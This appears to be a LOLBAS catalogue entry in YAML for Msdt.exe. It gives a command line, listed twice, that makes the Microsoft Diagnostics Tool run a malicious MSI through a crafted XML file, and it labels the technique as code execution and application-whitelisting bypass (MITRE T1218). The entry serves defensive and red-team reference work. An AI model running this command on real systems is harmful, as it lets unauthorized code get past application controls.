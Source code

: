 ```yaml
---
Name: Msdt.exe
Description: Microsoft diagnostics tool
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
    Description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
    Description: Executes the Microsoft Diagnostics Tool and executes the malicious .MSI referenced in the PCW8E57.xml file.
    Usecase: Execute code bypass Application whitelisting
    Category: AWL bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\Msdt.exe
  - Path: C:\Windows\SysWOW64\Msdt.exe
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/PCW8E57.xml
Detection:
  - IOC:
Resources:
  - Link: https://web.archive.org/web/20160322142537/https://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - Link: https://twitter.com/harr0ey/status/991338229952598016
Acknowledgement:
  - Person:
    Handle:
---
```

